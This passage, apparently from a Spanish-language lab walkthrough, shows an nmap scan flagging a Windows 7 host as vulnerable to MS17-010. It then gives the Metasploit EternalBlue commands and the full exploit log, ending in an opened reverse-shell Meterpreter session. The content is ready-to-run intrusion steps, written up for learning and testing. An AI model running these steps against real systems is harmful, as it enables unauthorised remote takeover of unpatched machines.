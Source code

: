 ```
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds
```

Veremos que es vulnerable.

> Metasploit

```shell
msfconsole -q
```

```shell
use windows/smb/ms17_010_eternalblue
```

```shell
set RHOSTS <IP>
```

```shell
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.199:4455 
[*] 192.168.5.138:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.5.138:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] 192.168.5.138:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.5.138:445 - The target is vulnerable.
[*] 192.168.5.138:445 - Connecting to target for exploitation.
[+] 192.168.5.138:445 - Connection established for exploitation.
[+] 192.168.5.138:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.5.138:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.5.138:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 48 6f 6d 65 20 42  Windows 7 Home B
[*] 192.168.5.138:445 - 0x00000010  61 73 69 63 20 37 36 30 30                       asic 7600       
[+] 192.168.5.138:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.5.138:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.5.138:445 - Sending all but last fragment of exploit packet
[*] 192.168.5.138:445 - Starting non-paged pool grooming
[+] 192.168.5.138:445 - Sending SMBv2 buffers
[+] 192.168.5.138:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.5.138:445 - Sending final SMBv2 buffers.
[*] 192.168.5.138:445 - Sending last fragment of exploit packet!
[*] 192.168.5.138:445 - Receiving response from exploit packet
[+] 192.168.5.138:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.5.138:445 - Sending egg to corrupted connection.
[*] 192.168.5.138:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 192.168.5.138
[*] Meterpreter session 1 opened (192.168.5.199:4455 -> 192.168.5.138:49183) at 2024-07-25 17:25:57 +0200
[+] 192.168.5.138:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.5.138:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```